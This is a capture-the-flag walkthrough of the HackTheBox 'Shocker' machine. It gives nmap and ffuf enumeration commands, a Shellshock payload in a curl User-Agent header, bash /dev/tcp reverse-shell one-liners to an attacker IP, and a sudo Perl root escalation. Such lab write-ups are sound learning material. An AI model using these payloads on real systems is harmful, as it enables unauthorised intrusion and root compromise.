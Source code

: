 # Shocker [HTB](https://app.hackthebox.com/machines/108)

![shocker-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/shocker-01.png)


Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/hosts-02.png)


Now we can use `nmap` to scan the target:

```bash
nmap -sC -sV -A -p- shocker.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/nmap-res-03.png)

We have the following:

+ An Apache V2.4.18 Server on port 80.
+ An SSH server on port 2222.


Lets take a look at the web server and see what we can find. 


## Apache port 80

Lets open our browser and navigate towards `http://shocker.htb`

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/site-04.png)

Not much to see or do here, lets try directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/common.txti:FUZZ  -u http://shocker.htb/FUZZ
```

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/ffuf-05.png)


We can see we have a few interesting results. Primarly, the scan confirmed that CGI is enabled on the 
target. We could potentially exploit this. 

Certain versions of Bash incorrectly execute commands that follow function definitions stored inside environment variables - this can be exploited by an attacker in systems that store user input in environment variables.

On such scenario is with cgi scripts. Sometimes cgi scripts store data received from HTTP headers inside 
enviorenment varaibles in order to generate dynamic content. Since we can control the data passed in the 
HTTP headers, we can leverage this to gain RCE.

To pull this off, we need to find a valid cgi script we can execute via the browser. From the `ffuf` scan
we can see that we dont have permissions to view the contents of the `cgi-bin` directory, so we have to 
enumerate some more. 

I use `ffuf` again, this time adding the `-e` switch to scan for possible file extensions:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.
txt -u http://shocker.htb/cgi-bin/FUZZ -e .cgi,.php,.sh,.py,.pl
```

![script-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/script-06.png)


We got something. Lets check if its vulnerable:

```bash
curl http://shocker.htb/cgi-bin/user.sh -i -H "User-agent: () { :;}; echo; echo pwned"
```

![vuln-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/vuln-07.png)

It is. Now we can use a one liner reverse shell to get access to the system. 

First set up the listener: 

```
rlwrap nc -lnvp 443
```

Exploit with:

```
curl http://shocker.htb/cgi-bin/user.sh -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.117/443 0>&1"
```

![shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/shell-08.png)


## Privilege Escalation

Lets look for easy wins, like our `sudo` permissions:

```bash
sudo -l
```

![sudo-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/sudo-09.png)


WE can see we are allowed to run Perl. If we can run a scripting language as root, escalation is fairly trivial:

```perl
sudo perl -e 'exec "/bin/sh";'
```

![root-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/root-10.png)


From here we can setup another `nc` listener and upgrade this shell with:

```bash
bash -i >& /dev/tcp/<kali-ip>/9001 0>&1
```

![full-root-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/full-root-11.png)

